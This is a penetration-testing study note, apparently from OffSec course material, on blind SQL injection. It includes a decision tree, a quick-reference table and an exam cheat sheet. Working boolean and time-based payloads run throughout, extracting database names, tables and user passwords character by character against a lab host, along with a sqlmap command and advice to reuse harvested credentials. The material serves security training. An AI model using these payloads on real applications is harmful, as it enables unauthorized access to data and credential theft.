

---
tags:
  - blind-sqli
  - phase/exploitation
  - sqli
  - web
---

# Blind SQL injections

> [!tip] Quick Reference — SQLi
> | Step | MySQL | MSSQL |
> |------|-------|-------|
> | Detect | `'` `"` `' OR 1=1--` | same |
> | Comment | `-- -` `#` | `--` |
> | Version | `@@version` | `@@version` |
> | Current DB | `database()` | `db_name()` |
> | List DBs | `UNION SELECT schema_name FROM information_schema.schemata` | `SELECT name FROM sys.databases` |
> | List tables | `UNION SELECT table_name FROM information_schema.tables WHERE table_schema=database()` | `SELECT table_name FROM information_schema.tables` |
> | List columns | `UNION SELECT column_name FROM information_schema.columns WHERE table_name='users'` | same |

## Decision Tree

```
Possible SQLi parameter?
├── [1] Test for error
│   └── Add ' to input → SQL error visible?
│       ├── YES → error-based SQLi
│       └── NO  → try boolean blind: ' OR 1=1-- vs ' OR 1=2--
│
├── [2] Find column count
│   └── ' ORDER BY 1-- , ORDER BY 2-- ... until error
│       └── Error on N → column count is N-1
│
├── [3] UNION attack
│   ├── ' UNION SELECT NULL,NULL,...--  (match column count)
│   ├── Find which column reflects output
│   │   └── ' UNION SELECT 1,2,3,4--  (look for numbers in page)
│   └── Extract data
│       └── ' UNION SELECT username,password,3,4 FROM users--
│
├── Blind SQLi (no visible output)?
│   ├── Boolean: ' AND 1=1-- (true) vs ' AND 1=2-- (false)
│   └── Time-based: ' AND SLEEP(5)--  (MySQL) / WAITFOR DELAY '0:0:5'-- (MSSQL)
│
└── Got credentials?
    └── Try them: SSH, SMB, WinRM, web login
```

## Visual Flow



> [!success] What success looks like
> `?user=offsec' AND 1=1 -- //` returns the normal profile page, but `?user=offsec' AND 1=2 -- //` returns a different/blank page — that difference proves boolean blind SQLi. For time-based, `?user=offsec' AND IF(1=1, sleep(3), 'false') -- //` makes the page hang ~3 seconds, confirming a TRUE condition.

> [!danger] Common errors
> - You see the same page for both `1=1` and `1=2` → you are not actually in the query, or the injection point/comment is wrong; always baseline a valid vs. a fake username first.
> - Time-based test "doesn't delay" → network jitter or wrong DBMS syntax (`SLEEP()` is MySQL; MSSQL uses `WAITFOR DELAY '0:0:3'`); retry and increase the delay.
> - Extracting data by hand is painfully slow → automate with sqlmap (see [[Automating the attack]]).
> - Quote/encoding issues in the URL → see [[🔣 Encoding Reference]].
> Full list: [[⚠️ Common Errors & Troubleshooting]]

> [!tip] Beginner note
> **Blind** means the database never prints its answer back to you. Instead you ask yes/no questions and read the *side effect*: a changed page (boolean) or a delay (time-based). You then walk the secret one character at a time with `SUBSTRING(value, position, 1)='x'`.

## Resources
- [HackTricks — SQLi](https://book.hacktricks.xyz/pentesting-web/sql-injection)
- [PayloadsAllTheThings — SQLi](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)
- [PortSwigger SQLi Cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)


10.2.3. Blind SQL injections

The SQLi payloads we have encountered are in-band, meaning we're able to retrieve the database content of our query inside the web application.

Alternatively, blind SQL injections describe scenarios in which database responses are never returned and behavior is inferred using either boolean- or time-based logic.

As an example, generic boolean-based blind SQL injections cause the application to return different and predictable values whenever the database query returns a TRUE or FALSE result, hence the "boolean" name. These values can be reviewed within the application context.


Time-based blind SQL injections infer the query results by instructing the database to wait for a specified amount of time. Based on the response time, the attacker can conclude if the statement is TRUE or FALSE.


Closely reviewing the URL, we'll notice that the application takes a user parameter as input, defaulting to offsec since this is our current logged-in user. The application then queries the user's record, returning the Username, Password Hash, and Description values.
[http://192.168.50.16/blindsqli.php?user=offsec'](http://192.168.50.16/blindsqli.php?user=offsec')
AND 1=1 -- //

Since 1=1 will always be TRUE, the application will return the values only if the user is present in the database. Using this syntax, we could enumerate the entire database for other usernames or even extend our SQL query to verify data in other tables.
[http://192.168.50.16/blindsqli.php?user=offsec'](http://192.168.50.16/blindsqli.php?user=offsec')
AND IF (1=1, sleep(3),'false') -- //

We know the user offsec is active, so if we paste the above URL payload into our Kali VM's browser, we'll notice that the application hangs for about three seconds.


This attack angle can become very time-consuming, so it's often automated with tools like sqlmap, as we'll cover in the next Learning Unit.


CHEAT SHEET:

=== Blind SQL Injection – Exam Cheat Sheet ===

Goal:
Extract data when NO direct output is shown from the database.

Instead of seeing results, you infer TRUE/FALSE via:
- Page content (Boolean-based)
- Response time (Time-based)

--------------------------------------------------

[1] Confirm Injection Point

Test basic payloads:

' 
'--
' AND 1=1--
' AND 1=2--

→ If page behaves differently → injectable

--------------------------------------------------

[2] Boolean-Based Blind SQLi

TRUE condition:
' AND 1=1-- 

FALSE condition:
' AND 1=2--

👉 Compare responses:
- Page loads normally → TRUE
- Page changes / blank / error → FALSE

--------------------------------------------------

[3] Extract Data (Boolean Logic)

Test character-by-character:

Example: Extract first letter of database name

' AND SUBSTRING(database(),1,1)='a'--

→ TRUE = match
→ FALSE = no match

Brute-force:

' AND SUBSTRING(database(),1,1)='a'--
' AND SUBSTRING(database(),1,1)='b'--
' AND SUBSTRING(database(),1,1)='c'--

→ Continue until TRUE

--------------------------------------------------

[4] Extract Length

' AND LENGTH(database())=5--

→ Adjust number until TRUE

--------------------------------------------------

[5] Enumerate Tables

' AND SUBSTRING(
  (SELECT table_name FROM information_schema.tables 
   WHERE table_schema=database() LIMIT 0,1),
  1,1)='u'--

→ Extract table names one character at a time

--------------------------------------------------

[6] Enumerate Columns

' AND SUBSTRING(
  (SELECT column_name FROM information_schema.columns 
   WHERE table_name='users' LIMIT 0,1),
  1,1)='i'--

--------------------------------------------------

[7] Extract Data (e.g., passwords / flags)

' AND SUBSTRING(
  (SELECT password FROM users LIMIT 0,1),
  1,1)='a'--

→ Repeat for each character

--------------------------------------------------

[8] Time-Based Blind SQLi

Use delays to confirm TRUE/FALSE

TRUE:
' AND IF(1=1, SLEEP(3), 0)-- 

FALSE:
' AND IF(1=2, SLEEP(3), 0)-- 

👉 If page delays → TRUE
👉 No delay → FALSE

--------------------------------------------------

[9] Extract Data Using Time-Based

' AND IF(SUBSTRING(database(),1,1)='a', SLEEP(3), 0)-- 

→ Delay = correct guess

--------------------------------------------------

Rules (CRITICAL):

1. No direct output → infer results
2. Boolean = page content changes
3. Time-based = delays indicate TRUE
4. Extract data one character at a time

--------------------------------------------------

Quick Attack Flow:

1. Test injection → '
2. Test TRUE/FALSE → 1=1 / 1=2
3. Confirm behavior difference
4. Extract length
5. Extract data (char by char with SUBSTRING)
6. Reconstruct value (DB name, tables, passwords, flag)

--------------------------------------------------

Example Target:
[http://target/app.php?user=offsec](http://target/app.php?user=offsec)
Payload:

?user=offsec' AND 1=1--        → TRUE
?user=offsec' AND 1=2--        → FALSE

Time-based:

?user=offsec' AND IF(1=1,SLEEP(3),0)-- 

--------------------------------------------------

Automation (Real World):

Use sqlmap:

sqlmap -u "
[http://target/app.php?user=offsec](http://target/app.php?user=offsec)
" --dbs

--------------------------------------------------

Key Insight:

UNION SQLi → direct data output ✅  
Blind SQLi → infer data slowly (boolean/time) ✅

--------------------------------------------------

> [!info] Why it's still "blind"
> Boolean-based may not look like blind SQLi, but the output used to infer results comes from the **web application's** response, not the database itself.

Logging in with the `offsec` / `lab` credentials shows a profile page with the username, password hash, and description — the app queries the user record via the `user` URL parameter.

Test for boolean-based blind SQLi by appending an always-true condition to the URL. Because the user exists, the profile still renders:

```
http://192.168.50.16/blindsqli.php?user=offsec' AND 1=1 -- //
```

Achieve the same result with a time-based payload. The `IF` condition is always true, so the page hangs ~3 seconds (a non-existent user returns false, no delay):

```
http://192.168.50.16/blindsqli.php?user=offsec' AND IF(1=1, sleep(3), 'false') -- //
```

> [!tip] Baseline both responses
> Always probe the app's behavior for both a valid and an invalid input — send a fictitious username and compare its response against a known-good one like `offsec` so you can reliably tell TRUE from FALSE.

---
%% graph-links %%
## Related
- [[UNION-based payloads]]
- [[Identifying SQLi via error-based payloads]]
- [[Automating the attack]]

> [!info] Navigation
> Section: [[SQL Injection Attacks/Manual SQL exploitation/_index|Manual SQL exploitation]] · Home: [[🏠 Home]]

